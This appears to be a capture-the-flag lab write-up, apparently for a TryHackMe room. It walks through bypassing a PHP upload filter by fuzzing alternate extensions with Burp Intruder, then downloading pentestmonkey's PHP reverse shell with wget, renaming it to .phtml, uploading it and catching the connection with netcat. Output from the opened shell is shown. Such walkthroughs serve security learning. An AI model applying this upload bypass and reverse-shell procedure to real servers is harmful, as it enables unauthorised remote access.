 ```console
/css (Status: 301)
/js (Status: 301)
/internal (Status: 301)
===============================================================
2020/05/30 20:03:18 Finished
=========================================================
```
Try each one of them and find out

# Compromise the webserver

seem like we cannot up load [shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) which mean that we cannot upload our reverse shell. But the website might allow us to upload another php extension file. In this case, we wil use `Intruder` in `BurpSuite` (used for automating customised attacks). the list belows show all the file extension we will try. Moreover, there are commonfile extension list which you can also use. but in this case we only focus on php reverse shell 

```
php
php3
php4
php5
phtml
```

now open `BurpSuite` and try to upload our shell on the website. Intercept the post request but do not forward it. Press `Action` and forward it to `Intruder`. Now go to payload tab and add this:

![payloads](pic/Screenshot%202020-07-14%20at%2023.43.34.png)


to advoid go thru every singel response we will use a `Grep - Macth` which can be found in `Option` tab. Here we will try to grep error messege `Extension not allowed` or `not allowed`
![grep](pic/Screenshot%202020-07-14%20at%2023.43.41.png)


To replace our payload in our post request, go to `Position` and add § as the picture below
![position](pic/Screenshot%202020-07-14%20at%2023.43.27.png)
Now start the actack.

here is the result:
![result](pic/Screenshot%202020-07-14%20at%2023.43.20.png)


so now let download our php reverse shell and change file extension toll phtml since it is not block by the website
```console
bibo318@parrot:~/THM$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
bibo318@parrot:~/THM$ ls
AD  kuroHat.ovpn  mrRobot  phpext.txt  php-reverse-shell.php
bibo318@parrot:~/THM$ mv php-reverse-shell.php php-reverse-shell.phtml
bibo318@parrot:~/THM$ ls
AD  kuroHat.ovpn  mrRobot  phpext.txt  php-reverse-shell.phtml
```
Before uploading the shell, dont forget to change the IP and PORT in the script. Upload it. and run nc listening to the port. To execute our payload visite `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml`
```console
connect to [10.8.14.151] from (UNKNOWN) [10.10.220.103] 41216
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:37:58 up 48 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```